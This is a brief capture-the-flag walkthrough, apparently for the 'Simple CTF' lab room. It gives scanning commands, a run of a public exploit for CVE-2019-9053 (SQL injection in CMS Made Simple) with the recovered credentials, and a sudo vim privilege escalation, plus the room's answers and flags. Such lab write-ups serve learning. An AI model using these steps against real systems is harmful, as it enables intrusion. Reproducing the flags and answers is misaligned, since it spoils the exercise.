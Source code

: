 # simple ctf

## Task 1 Simple CTF
- How many services are running under port 1000? 2
  ```
  nmap -sC -sV 10.10.69.130 -T4

  ssh port 2222
  ```
- What is running on the higher port? ssh
- What's the CVE you're using against the application? CVE-2019-9053
  ```
  gobuster dir -u 10.10.69.130 -w /usr/share/worldlist/rockyou.txt

  go /simple
  check cms made simple, and check goggle the cv
  ```
- To what kind of vulnerability is the application vulnerable? sqli
- What's the password? secret
  ```
  install the exploit.py
  and convert python2 to python3

  and run

  python3 cv-cms3.py -u http://10.10.69.130/simple -w rockyou.txt

  [+] Salt for password found: 1dac0d92e9fa6bb2
  [+] Username found: mitch
  [+] Email found: admin@admin.com
  [+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96k
  [+] Password cracked: secret
  ```
- Where can you login with the details obtained? ssh
- What's the user flag? G00d j0b, keep up!
- Is there any other user in the home directory? What's its name? sunbath
- What can you leverage to spawn a privileged shell? vim
  ```
  sudo -l
  (root) NOPASSWD: /usr/bin/vim

  gtfobins > vim > sudo
  ```
- What's the root flag?
  ```
  W3ll d0n3. You made it!
  ```